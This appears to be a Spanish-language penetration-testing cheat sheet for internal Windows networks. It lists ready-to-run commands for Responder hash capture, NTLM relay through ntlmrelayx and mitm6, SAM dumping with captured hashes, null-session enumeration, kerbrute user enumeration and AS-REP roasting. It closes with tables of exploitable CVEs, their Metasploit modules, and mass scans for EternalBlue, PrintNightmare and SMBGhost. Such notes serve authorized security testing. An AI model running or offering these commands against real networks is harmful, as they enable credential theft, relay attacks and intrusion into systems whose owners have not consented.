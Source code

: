 ```yaml
---
layout: default
title: Pentest Interno
---
```


# **Responder**

Modo capturar hashes
```bash
sudo responder -I eth0 -wdF
```

```
ls -la /usr/share/responder/logs
```

Modo relay

```bash
nxc smb ip/24 --gen-relay-list relay.txt
```

```bash
sudo nano /etc/responder/Responder.conf
```

`Ponemos en OFF SMB y HTTP`

```bash
sudo responder -I eth0 -FPv
```

```
sudo impacket-ntlmrelayx.py  -tf relay.txt -smb2support 
```

```bash
nxc smb IP/24 -U USER -H HASH  --local-auth --sam
```

Modo relay IPV6
```bash
sudo python3 mitm6.py -d DOMAIN
```

```bash
impacket-ntlmrelayx -6 -wh 10.17.0.213 -tf formated_relay.txt -socks -debug -smb2support
```

Filtrar por hashes distintos
```bash
ls -la  /usr/share/responder/logs | awk '{print $NF}' | tail -n 15 | xargs cat | grep '::IVI' | sort | uniq
```

Extraer usuarios válidos de los hashes
```bash
cat /usr/share/responder/logs | tr ':' ' ' | awk '{print $1}' | sort | uniq | grep -vE ',|\/|-|#'
```

___

Ver Host activos
```bash
sudo arp-scan -l | awk '/^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+/ {print $1}' >> ips.txt
sudo nmap -sn  10.17.0.0/24 -oG - | awk '/Up$/{print $2}' >> ips.txt
cat ips.txt | sort | uniq > ips2.txt
```

smb.txt
```bash
nxc smb -t 10.17.0.0/24 
```

Nmap específico por puertos
```bash
nmap -p 445 10.17.0.0/24 -sS --open -oG - | awk '/445\/open/ {print $2}' > 445.txt
nmap -p 22 10.17.0.0/24 -sS --open -oG - | awk '/22\/open/ {print $2}' > 22.txt
nmap -p 21 10.17.0.0/24 -sS --open -oG - | awk '/21\/open/ {print $2}' > 21.txt
nmap -p 3306 10.17.0.0/24 -sS --open -oG - | awk '/3306\/open/ {print $2}' > 3306.txt
nmap -p 3389 10.17.0.0/24 -sS --open -oG - | awk '/3389\/open/ {print $2}' > 3389.txt
nmap -p 1433 10.17.0.0/24 -sS --open -oG - | awk '/1433\/open/ {print $2}' > 1433.txt
nmap -p 139 10.17.0.0/24 -sS --open -oG - | awk '/139\/open/ {print $2}' > 139.txt
nmap -p 389 10.17.0.0/24 -sS --open -oG - | awk '/389\/open/ {print $2}' > 389.txt
nmap -p 636 10.17.0.0/24 -sS --open -oG - | awk '/636\/open/ {print $2}' > 636.txt
nmap -p 80 10.17.0.0/24 -sS --open -oG - | awk '/80\/open/ {print $2}' > 80.txt
nmap -p 8080 10.17.0.0/24 -sS --open -oG - | awk '/8080\/open/ {print $2}' > 8080.txt
nmap -p 443 10.17.0.0/24 -sS --open -oG - | awk '/443\/open/ {print $2}' > 443.txt
nmap -p 23 10.17.0.0/24 -sS --open -oG - | awk '/23\/open/ {print $2}' > 23.txt
```

SMB null session
```bash
nxc smb 445.txt -u '' -p '' | grep '\[+\]'
nxc smb 445.txt -u '' -p '' --shares
smbmap -u 'null' --host-file smb_null.txt
smbmap -u '' --host-file smb_null.txt
smbclient -L 10.17.0.229 -N
smbclient -L 10.17.0.229 -N -m SMB3
smbclient -L 10.17.0.229 -N -m SMB2
```

RPC null session
```bash
while read ip; do
	echo "Probando null session RPC en $ip "
	rpcclient -U "" $ip -c "enumdomusers" && echo "Null session permitida en $ip" || echo "No null session en $ip"
done < 139.txt
```

```bash
while read ip; do\n  echo "Probando null session RPC en $ip"\n  impacket-lookupsid anonymous@DOMAIN -target-ip $ip -no-pass && echo "Null session permitida en $ip" || echo "No null session en $ip"\ndone < 139.txt
```
 
RDP, comprobar NLA
```bash
nmap -p 3389 -iL 3389.txt --script=rdp-enum-encryption
nxc rdp --nla-screenshot 3389.txt | grep "nla:False"
ls -lh /home/user/.nxc/screenshots/
rdesktop -u "" -p "" IP
```

LDAP probar consultas anónimas
```BASH
ldapsearch -x -H ldap://DOMAIN -s base  -b "" "(objectClass=*)"
ldapsearch -x -H ldap://DOMAIN -s base  -b "DC=,DC=" "(objectClass=*)"
```

Escanear páginas web rápido para saber si están activas

```bash
nmap -p 80 10.17.0.0/24 -sS --open -oG - | awk '/80\/open/ {print $2}' > 80.txt
nmap -p 8080 10.17.0.0/24 -sS --open -oG - | awk '/8080\/open/ {print $2}' > 8080.txt
nmap -p 443 10.17.0.0/24 -sS --open -oG - | awk '/443\/open/ {print $2}' > 443.txt
```

```bash
awk '{print "http://"$0":80"}' 80.txt >> urls.txt
```

```bash
awk '{print "http://"$0":8080"}' 8080.txt >> urls.txt
```

```bash
awk '{print "https://"$0":443"}' 443.txt >> urls.txt
```

```bash
sudo apt install unzip -y
wget https://github.com/projectdiscovery/httpx/releases/download/v1.7.1/httpx_1.7.1_linux_amd64.zip
unzip httpx-linux-amd64.zip
chmod +x httpx-linux-amd64
sudo mv httpx-linux-amd64 /usr/local/bin/httpx

~/go/bin/httpx -l urls.txt -sc -title -t 50 -timeout 5
```

Listado de usuarios válidos
```bash
./kerbrute userenum -d DOMAIN  kerbrute_wordlist.txt 

impacket-GetNPUsers DOMAIN/ -no-pass -usersfile valid_users.txt -dc-ip IP
```
Wordlist para hacer password spraying
https://github.com/attackdebris/kerberos_enum_userlists.git

___

Listar software vulnerable, primero hacer un nmap targeted, después:

mssql
```bash
cat mssql_targeted | grep -E 'Nmap scan report|name: |number: ' | grep -v 'Instance' > vulnerable_mssql.txt
```

22.txt
```bash
awk '/Nmap scan report for/ {ip=$NF} /tcp/ && /open/ && /ssh/ {print ip, substr($0, index($0, $4))}' 22_targeted 
```

___

# Puertos típicos

| Puerto        | Servicio común        | Riesgos frecuentes / Exploits conocidos                             |
| ------------- | --------------------- | ------------------------------------------------------------------- |
| **21**        | FTP                   | Contraseñas en texto plano, anon login, RCE (vsftpd backdoor, etc.) |
| **22**        | SSH                   | Bruteforce, versiones viejas de OpenSSH (7.x, 8.x) con CVEs         |
| **23**        | Telnet                | Texto plano, acceso sin cifrar, default creds                       |
| **25**        | SMTP                  | Relay abierto, RCE por buffer overflow                              |
| **53**        | DNS                   | Cache poisoning, DoS, zone transfer                                 |
| **80**        | HTTP                  | Web vulns (LFI, RCE, XSS, SQLi), paneles sin auth                   |
| **110**       | POP3                  | Texto plano, credenciales expuestas                                 |
| **135**       | RPC                   | Windows RCE (MS03-026, DCOM, etc.)                                  |
| **139**       | NetBIOS               | Enumeración, ataques LLMNR/NetBIOS                                  |
| **143**       | IMAP                  | Texto plano, default creds                                          |
| **389**       | LDAP                  | Enumeración, credenciales en texto plano                            |
| **445**       | SMB                   | MS17-010 (EternalBlue), RCE, cred capture (Responder)               |
| **512-514**   | R* services           | RSH/Rlogin inseguros                                                |
| **3306**      | MySQL                 | Default creds, inyecciones                                          |
| **3389**      | RDP                   | Bruteforce, BlueKeep (CVE-2019-0708), cred reuse                    |
| **5432**      | PostgreSQL            | Default users, inyecciones SQL                                      |
| **5900**      | VNC                   | Sin autenticación, acceso completo                                  |
| **5985/5986** | WinRM                 | RCE si hay credenciales disponibles                                 |
| **8000-9000** | Web apps/dev services | Jenkins, Tomcat, Jupyter, etc. → muchos sin auth por defecto        |
| **9200**      | Elasticsearch         | RCE, info leak si sin auth                                          |
| **11211**     | Memcached             | Amplification DDoS                                                  |

# Vuns típicas

| Nombre             | CVE            | Servicio              | Descripción                                          | Explotable en Metasploit                           |
| ------------------ | -------------- | --------------------- | ---------------------------------------------------- | -------------------------------------------------- |
| **EternalBlue**    | CVE-2017-0144  | SMBv1 (445)           | RCE por buffer overflow en SMBv1 (Win7, Win2008, XP) | ✅ Sí (exploit/windows/smb/ms17_010_eternalblue)    |
| **SMBGhost**       | CVE-2020-0796  | SMBv3 (445)           | RCE en SMBv3.1.1 (Windows 10/2019)                   | ✅ (scripts y PoCs)                                 |
| **BlueKeep**       | CVE-2019-0708  | RDP (3389)            | RCE en Remote Desktop (Win7/Server 2008)             | ✅ (exploit/windows/rdp/cve_2019_0708_bluekeep_rce) |
| **PrintNightmare** | CVE-2021-34527 | RPC/Spooler (135/445) | RCE por falla en spooler                             | ✅ (exploit/windows/local/printnightmare)           |

Escáneres :

```bash
nxc smb 10.17.0.0/24 -M eternalblue
```

```bash
nxc smb 10.17.0.0/24 -M printnightmare
```

```bash
nxc smb 10.17.0.0/24 -M smbghost
```